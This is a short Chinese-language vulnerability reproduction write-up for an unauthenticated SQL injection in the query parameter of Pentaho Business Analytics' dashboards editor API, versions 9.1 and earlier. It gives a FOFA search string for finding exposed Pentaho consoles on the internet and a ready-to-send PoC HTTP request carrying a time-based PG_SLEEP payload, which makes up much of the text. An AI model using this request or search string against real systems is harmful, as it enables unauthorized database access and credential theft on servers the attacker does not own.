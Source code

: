 
# Pentaho 业务分析平台 SQL 注入漏洞复现

### 0x01 产品简介

  Pentaho Business Analytics 是一款使您能够安全地访问、集成、操作、可视化和分析大数据资产的业务分析平台。

### 0x02 漏洞概述

 Pentaho 业务分析平台在/pentaho/api/repos/dashboards/editor 路径 query 参数存在 SQL 注入漏洞，攻击者可未授权执行任意 SQL 语句，获取账号密码等敏感信息，进一步接管系统。

### 0x03 影响范围

 Pentaho <= 9.1

### 0x04 复现环境

FOFA：app="Pentaho-用户控制台"

![](assets/1701745998-904eb0d81f6ef1ee21533bfdac6c99fc.png)

### 0x05 漏洞复现 

PoC

```cobol
GET /pentaho/api/repos/dashboards/editor?command=executeQuery&datasource=pentaho_operations_mart&require-cfg.js&query=%3BSELECT+PG_SLEEP%288%29-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

延时 8 秒 （PG\_SLEEP(8)）
